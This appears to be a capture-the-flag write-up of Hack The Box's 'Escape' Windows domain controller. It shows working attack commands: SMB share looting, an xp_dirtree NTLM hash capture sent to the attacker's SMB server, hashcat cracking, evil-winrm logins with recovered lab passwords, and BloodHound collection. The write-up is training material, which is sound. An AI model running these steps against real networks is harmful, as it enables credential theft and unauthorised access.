

# Escape (Medium)

<figure><figcaption></figcaption></figure>

## Information Gathering



#### Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-27 11:44:15Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f7f54b2edff74708d1a6ddf34b9bd
|_SHA-1: 742ab4522191331767395039db9b3b2e27b6f7fa
|_ssl-date: 2023-04-27T11:45:45+00:00; +8h00m01s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-27T11:45:44+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f7f54b2edff74708d1a6ddf34b9bd
|_SHA-1: 742ab4522191331767395039db9b3b2e27b6f7fa
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-04-27T11:39:41
| Not valid after:  2053-04-27T11:39:41
| MD5:   a88f07c39852cdde944e3fe7ad3a8997
|_SHA-1: 2b6b0afd3b49670065095d8b95719cb10c6171be
| ms-sql-ntlm-info: 
|   10.129.229.159:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2023-04-27T11:45:45+00:00; +8h00m01s from scanner time.
| ms-sql-info: 
|   10.129.229.159:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-04-27T11:45:04
|_  start_date: N/A
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 7h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
```

#### Enumerated UDP ports:

```
123 open
```

#### Notes:

We can tell that this is a domain controller because port 88 (Kerberos) is open.

Domain obtained from 389 LDAP:

* Add to /etc/hosts

```
sequel.htb
```


## Enumeration -- Pre-credentials

### Port 636 - LDAP

At first, I attempted to run nmap, utilizing it's scripting engine to enumerate LDAP:

```
nmap -n -sV --script "ldap* and not brute" 10.129.229.159 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 00:42 EDT
Nmap scan report for 10.129.229.159
Host is up (0.035s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-27 12:42:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
----CUT HERE TO SAVE SPACE----
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=sequel,DC=htb
|       serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=sequel,DC=htb
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=sequel,DC=htb
|       namingContexts: DC=sequel,DC=htb
|       namingContexts: CN=Configuration,DC=sequel,DC=htb
|       namingContexts: CN=Schema,CN=Configuration,DC=sequel,DC=htb
|       namingContexts: DC=DomainDnsZones,DC=sequel,DC=htb
|       namingContexts: DC=ForestDnsZones,DC=sequel,DC=htb
|       isSynchronized: TRUE
|       highestCommittedUSN: 168070
|       dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=sequel,DC=htb
|       dnsHostName: dc.sequel.htb
|       defaultNamingContext: DC=sequel,DC=htb
|       currentTime: 20230427124241.0Z
|_      configurationNamingContext: CN=Configuration,DC=sequel,DC=htb
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### ldapsearch

```
↪ ldapsearch -x -H ldap://10.129.229.159 -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# extended LDIF
#
# LDAPv3
# base <DC=<1_SUBDOMAIN>,DC=<TLD>> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563
```

* We see "a successful bind must be completed on the connection"
* This means that the credentials provided (null) are incorrect

### Port 135/593 (MSRPC)

rpcdump:

```
impacket-rpcdump -p 135 10.129.229.159
```

#### rpcclient:

<figure><figcaption></figcaption></figure>

No success

### Port 445 (SMB)

Enumerate SMB shares with SMB Client:

```
smbclient -N -L \\\\10.129.229.159

Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Public          Disk      
	SYSVOL          Disk      Logon server share 
```

* I then manually went through the following sharenames with smbget to see if I was able to access something

#### smbget:

Discovering the SQL Server Procedures Document:

```
smbget -R -U "" smb://10.129.229.159/Public
Password for [] connecting to //10.129.229.159/Public: 
Using workgroup WORKGROUP, guest user
smb://10.129.229.159/Public/SQL Server Procedures.pdf                                                                            
Downloaded 48.39kB in 1 seconds
```

Access the PDF:

```
firefox SQL\ Server\ Procedures.pdf
```

<figure><figcaption><p>SQL Server Procedures.pdf</p></figcaption></figure>

It looks like we need to enumerate MSSQL now.

#### First set of credentials found:

```
PublicUser:GuestUserCantWrite1
```

### Port 1433 (MSSQL)

#### Attempted Automatic Nmap MSSQL Enumeration

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.202.159 -Pn
```

#### Impacket-mssqlclient

```
impacket-mssqlclient PublicUser@sequel.htb
password: GuestUserCantWrite1
```

<figure><figcaption></figcaption></figure>

Attempted to enable xp\_cmdshell, but it did not work.

<figure><figcaption></figcaption></figure>

## Exploitation

### Capturing NTLM Hash via MSSQL Relay Attack

Begin SMB Server:

```
sudo impacket-smbserver ./ -smb2support
```

Authenticate to MSSQL server with newly obtained credentials:

```
impacket-mssqlclient PublicUser@sequel.htb
password: GuestUserCantWrite1
```

Trigger NTLM Relay Attack:

```
xp_dirtree '\\10.10.14.23\any\thing'
```

<figure><figcaption></figcaption></figure>

#### Sequel User NTLM Hash


```
sql_svc::sequel:aaaaaaaaaaaaaaaa:7772050ee5ee1f89fc33c64c1d1272ef:01010000000000008051705cd579d901069a53da1cbddf9f00000000010010004d0077006b004100510071006f004400030010004d0077006b004100510071006f004400020010004f007500420077005700430056005800040010004f007500420077005700430056005800070008008051705cd579d901060004000200000008003000300000000000000000000000003000003d52eb97775a1999339f81b907194ef13041aa9cdcb498705ec7a93bf279f7190a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320033000000000000000000
```


This method was taken from [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)!

<figure><figcaption></figcaption></figure>

### Gaining Access

Let's attempt to crack our newly obtained NTLM hash!

1. Place the entire hash into a file named hash.txt
2. Use hashcat to crack hash with specified wordlist such as rockyou.txt
3. Obtain password or attempt to pass the hash around the network if it fails

#### Cracking Hash

```
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt -O
```

cracked.txt:


```
SQL_SVC::sequel:aaaaaaaaaaaaaaaa:55c3306c2a424405a7723b2fd4438adb:01010000000000008085528dd979d90109cbfb83529a36f000000000010010006800530049006500640061006c006600030010006800530049006500640061006c006600020010006b007900590078005100640049004300040010006b007900590078005100640049004300070008008085528dd979d901060004000200000008003000300000000000000000000000003000003d52eb97775a1999339f81b907194ef13041aa9cdcb498705ec7a93bf279f7190a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320033000000000000000000:REGGIE1234ronnie
```


#### Newly Acquired Credentials

```
SQL_SVC:REGGIE1234ronnie
```

### Authenticating via WinRM

```
evil-winrm -i sequel.htb -u SQL_SVC -p 'REGGIE1234ronnie'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### <mark style="color:red;">SQL\_SVC</mark> -> <mark style="color:yellow;">Ryan.Cooper</mark>

Upon performing some manual enumeration of the file system, I stumbled across a <mark style="color:yellow;">SQLServer</mark> directory.&#x20;

**C:\SQLServer\Logs\ERRORLOG.BAK**

<figure><figcaption></figcaption></figure>

#### Authenticating via WinRM

We can see that there was a failed logon attempt for a suspicious looking user of '<mark style="color:yellow;">NuclearMosquito3</mark>'. This clearly looks like a password. Let's try it with <mark style="color:yellow;">Ryan.Cooper</mark>!

```
evil-winrm -i sequel.htb -u Ryan.Cooper -p 'NuclearMosquito3'
```

### Ryan.Cooper -> Administrator

#### Bloodhound Enumeration (Remote)

```
bloodhound-python -d sequel.htb -v -u Ryan.Cooper -p NuclearMosquito3 -gc sequel.htb -c all -ns 10.129.202.159
```

I then placed all of this information into Bloodhound and was able to analyze the results.

